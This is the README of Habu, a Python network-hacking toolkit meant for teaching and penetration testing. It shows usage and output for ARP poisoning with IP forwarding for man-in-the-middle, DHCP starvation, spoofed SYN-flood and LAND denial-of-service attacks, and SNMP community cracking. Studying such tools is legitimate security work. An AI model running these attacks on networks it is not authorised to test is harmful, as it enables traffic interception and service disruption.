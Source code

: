 Habu: Python Network Hacking Toolkit
====================================

I'm developing Habu to teach (and learn) some concepts about Python and Network Hacking.

These are basic functions that help with some tasks for Ethical Hacking and Penetration Testing.

Most of them are related with networking, and the implementations are intended to be understandable 
for who wants to read the source code and learn from that.

Some techniques implemented in the current version are:

- ARP Poisoning
- ARP Sniffing
- DHCP Discover
- DHCP Starvation
- LAND Attack
- SNMP Cracking
- SYN Flooding
- TCP Flags Analysis
- TCP ISN Analysis
- TCP Port Scan
- Web Techonologies Identification


Installation
------------

To install Habu, simply:

.. code-block:: bash

    $ pip3 install habu


Dependencies
------------
Habu requires Python3 and the following packages:

- bs4
- click
- regex
- requests
- requests-cache
- scapy-python3
- matplotlib (Optional, only needed if you want to make some graphs)


Get Help
--------
All the commands implement the option '--help', that shows the help, arguments, 
options, and default values.


Verbose Mode
------------
Almost all commands implement the verbose mode with the '-v' option. This can give 
you some extra info about what habu is doing.


habu.arpoison: ARP Poisoning
----------------------------
This command sends ARP 'is-at' packets to each victim, poisoning their ARP tables
for send the traffic to your system.

.. code-block:: bash

    $ sudo habu.arpoison 192.168.1.5 192.168.1.6
    Ether / ARP is at 00:c2:c6:30:2c:58 says 192.168.1.6
    Ether / ARP is at 00:c2:c6:30:2c:58 says 192.168.1.5
    Ether / ARP is at 00:c2:c6:30:2c:58 says 192.168.1.6
    Ether / ARP is at 00:c2:c6:30:2c:58 says 192.168.1.5
    ...

**Note**: If you want a full working Man In The Middle attack, you need to enable 
the packet forwarding on your operating system to act like a router. You can do 
that using:

.. code-block:: bash

    echo 1 > /proc/sys/net/ipv4/ip_forward


habu.arpsniff: Discover devices on your LAN capturing ARP packets
-----------------------------------------------------------------
This command listen for ARP packets and shows information each device.

Columns: Seconds from last packet | IP | MAC | Vendor

.. code-block:: bash

    1   192.168.0.1	    a4:08:f5:19:17:a4   Sagemcom Broadband SAS
    7   192.168.0.2	    64:bc:0c:33:e5:57   LG Electronics (Mobile Communications)
    2	192.168.0.5	    00:c2:c6:30:2c:58   Intel Corporate
    6   192.168.0.7	    54:f2:01:db:35:58   Samsung Electronics Co.,Ltd



habu.contest: Check your connection capabilities
------------------------------------------------
This command tries to connect to various services and check if you can reach them using your internet connection.

.. code-block:: bash

    $ habu.contest 
    IP:    True
    DNS:   True
    FTP:   True
    SSH:   True
    HTTP:  True
    HTTPS: True


habu.dhcp_discover: Discover DHCP servers
-----------------------------------------
This command send a DHCP request and shows what devices has replied. Using the '-v' parameter (verbose) you can 
see all the options (like DNS servers) included on the responses.

.. code-block:: bash

    $ sudo habu.dhcp_discover 
    Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.5:bootpc / BOOTP / DHCP


habu.dhcp_starvation: Fill the DHCP leases
------------------------------------------
This command send multiple DHCP requests from forged MAC addresses to fill the DHCP server leases. When all the available network addresses are assigned, the DHCP server don't send responses. So, some attacks, like DHCP spoofing can be made.

.. code-block:: bash

    $ sudo habu.dhcp_starvation 
    Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.6:bootpc / BOOTP / DHCP
    Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.7:bootpc / BOOTP / DHCP
    Ether / IP / UDP 192.168.0.1:bootps > 192.168.0.8:bootpc / BOOTP / DHCP


habu.eicar: Prints the EICAR test string
----------------------------------------
This command prints the EICAR test string that can be used to test antimalware engines. More info: 
http://www.eicar.org/86-0-Intended-use.html

.. code-block:: bash

    $ habu.eicar 
    X5O!P%@AP[4\XZP54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*

**Note:** The below string is incorrect because is not a good idea write the complete in this text file. 
Some antivirus program can be detect it like a virus.  :)


habu.hasher: Computes various hashes with the input data
--------------------------------------------------------
This command computes various hashes for the input data, that can be a file or a stream.

If the filename is '-', the data is taken from the standard input (stdin) so, three different 
variants exists to call this command:

.. code-block:: bash

    $ habu.hasher README.rst 
    md5  : 375375d9cfb2aacab7c8d1a9afd3d9b7
    sha1 : 21c67b9ef44bc24d47eef6adab648ba34662927e
    
    $ cat README.rst | habu.hasher -
    md5  : 375375d9cfb2aacab7c8d1a9afd3d9b7
    sha1 : 21c67b9ef44bc24d47eef6adab648ba34662927e
    
    $ habu.hasher - < README.rst 
    md5  : 375375d9cfb2aacab7c8d1a9afd3d9b7
    sha1 : 21c67b9ef44bc24d47eef6adab648ba34662927e

**Note:** The output above shows only MD5 and SHA1 to make it short, but the real output 
includes more algorithms.

You can also specify which algorithm to use. In such case, the output is only the value 
of the calculated hash:

.. code-block:: bash

    $ habu.hasher -a md5 README.rst
    375375d9cfb2aacab7c8d1a9afd3d9b7


habu.ip: Prints your current public IP
--------------------------------------
This command prints your current public IP based on the response from https://api.ipify.org.

.. code-block:: bash

    $ habu.ip 
    182.26.32.246


habu.ip2asn: IP to ASN mapping
---------------------------
This command uses Team Cymru ip2asn service to get information about a public IPv4/IPv6.

.. code-block:: bash

    $ habu.ip2asn 8.8.8.8
    {
        "asn": "15169",
        "net": "8.8.8.0/24",
        "cc": "US",
        "rir": "ARIN",
        "asname": "GOOGLE - Google LLC, US",
        "country": "United States"
    }
 

habu.isn: Prints the TCP sequence numbers for an IP
---------------------------------------------------
This command creates TCP connections and prints the TCP initial sequence numbers for each connections.

.. code-block:: bash

    $ sudo habu.isn www.portantier.com
    1962287220
    1800895007
    589617930
    3393793979
    469428558

You can get a graphical representation (needs the matplotlib package) using the '-g' option:

.. code-block:: bash

    $ sudo habu.isn -g -c 10 www.portantier.com

.. image:: img/isn.png

**Note:** The above command uses '-c' option to define that 10 connections must be created.


habu.karma: Karma API client
----------------------------
Uses the Karma service (https://karma.securetia.com) to check an IP against a lot of 
Threat Intelligence / Reputation lists.

.. code-block:: bash

    habu.karma www.google.com
    www.google.com -> 64.233.190.99
    [
        "hphosts_fsa",
        "hphosts_psh",
        "hphosts_emd"
    ]
 
**Note:** You can use the hostname or the IP of the host to query.


habu.land: Implements the LAND attack
-------------------------------------
This command implements the LAND attack, that sends packets forging the source IP address 
to be the same that the destination IP. Also uses the same source and destination port.

The attack is very old, and can be used to make a Denial of Service on old systems, like 
Windows NT 4.0. More information here: https://en.wikipedia.org/wiki/LAND

.. code-block:: bash

    sudo habu.land 172.16.0.10
    ............

**Note:** Each dot (.) is a sent packet. You can specify how many packets send with the '-c' option. The default is never stop. Also, you can specify the destination port, with the '-p' option.


habu.ping: ICMP echo requests
-----------------------------
This command implements the classic 'ping' with ICMP echo requests.

.. code-block:: bash

    $ sudo habu.ping 8.8.8.8
    IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding


habu.snmp_crack: SNMP Community Cracker
---------------------------------------
This command launches snmp-get queries against an IP, and tells you when finds a valid 
community string (is a simple SNMP cracker).

The dictionary used is the distributed with the onesixtyone tool 
(https://github.com/trailofbits/onesixtyone)

.. code-block:: bash

    $ sudo habu.snmp_crack 179.125.234.210 
    Community found: private
    Community found: public

**Note:** You can also receive messages like <UNIVERSAL> <class 'scapy.asn1.asn1.ASN1_Class_metaclass'>,
I don't know how to supress them for now.


habu.synflood: SYN Flood Attack Implementation
----------------------------------------------
This command launches a lot of TCP connections and keeps them opened. Some very old systems can 
suffer a Denial of Service with this. More info: https://en.wikipedia.org/wiki/SYN_flood

.. code-block:: bash

    $ sudo habu.synflood 172.16.0.10
    .................

Each dot is a packet sent.

You can use the options '-2' and '-3' to forge the layer 2/3 addresses. If you use them, each connection 
will be sent from a random layer2 (MAC) and/or layer3 (IP) address.

You can choose the number of connections to create with the option '-c'. The default is never stop 
creating connections.

**Note:** If you send the packets from your real IP address and you want to keep the connections 
half-open, you need to setup for firewall to don't send the RST packets. With habu, you can do this with 
the following command (only works with Linux+IPTables):

.. code-block:: bash

    $ sudo habu.firewall --no-rst

You can check the results with "iptables -L -n", and you will see something like this:

.. code-block:: bash

    Chain OUTPUT (policy ACCEPT)
    target     prot opt source               destination         
    DROP       tcp  --  0.0.0.0/0            0.0.0.0/0            tcp flags:0x04/0x04


habu.tcpflags: TCP Flag Fuzzer
------------------------------
This command send TCP packets with different flags and tell you what responses receives.

It can be used to analyze how the different TCP/IP stack implementations and configurations responds to 
packet with various flag combinations.

.. code-block:: bash

    $ sudo habu.tcpflags www.portantier.com
    S  -> SA
    FS -> SA
    FA -> R
    SA -> R

By default, the command sends all possible flag combinations. You can specify which flags must ever be 
present (reducing the quantity of possible combinations), with the option '-f'.

Also, you can specify which flags you want to be present on the response packets to show, with the 
option '-r'.

With the next command, you see all the possible combinations that have the FIN (F) flag set and 
generates a response that contains the RST (R) flag.

.. code-block:: bash

    $ sudo habu.tcpflags -f F -r R www.portantier.com
    FPA  -> R       
    FSPA -> R       
    FAU  -> R     

  
habu.vhosts: Get vhosts of an IP address
----------------------------------------
This command uses Bing to query the websites hosted on the same IP address.


.. code-block:: bash

    $ habu.vhosts www.telefonica.com
    www.telefonica.com -> 212.170.36.79
    [
        'www.telefonica.es',
        'www.movistar.com',
        'universitas.telefonica.com',
        'www.telefonica.com',
    ]


habu.webid: Identify Web Technologies
-------------------------------------
This command uses Wappalyzer apps.json database to identify technologies used on a web application.

**Note:** This tool only sends one request. So, it's stealth and not suspicious.

.. code-block:: bash

    $ habu.webid https://woocomerce.com
    [
        "Facebook",
        "Google Tag Manager",
        "Nginx",
        "PHP",
        "Prototype",
        "RequireJS",
        "Visual Website Optimizer",
        "WooCommerce 4.8",
        "WordPress 4.8",
        "Yoast SEO 4.8"
    ]

